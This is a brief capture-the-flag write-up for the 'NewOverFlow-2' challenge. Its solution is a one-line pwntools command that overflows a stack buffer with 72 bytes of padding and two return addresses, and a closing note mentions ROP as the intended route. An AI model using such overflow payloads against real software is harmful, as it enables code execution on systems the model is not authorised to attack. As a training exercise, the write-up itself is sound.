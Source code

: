 # NewOverFlow-2

## Summary

Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_1_bcd752d56a87efb5dfc9803b461809f7 on the shell server. Source.

## Solution

cd /problems/newoverflow-2_1_bcd752d56a87efb5dfc9803b461809f7; python2 -c 'from pwn import *; print "A"*72 + p64(0x4008ce) + p64(0x040084d)' | ./vuln

## Notes

Guess the intended way is to use ROP check the solution.py
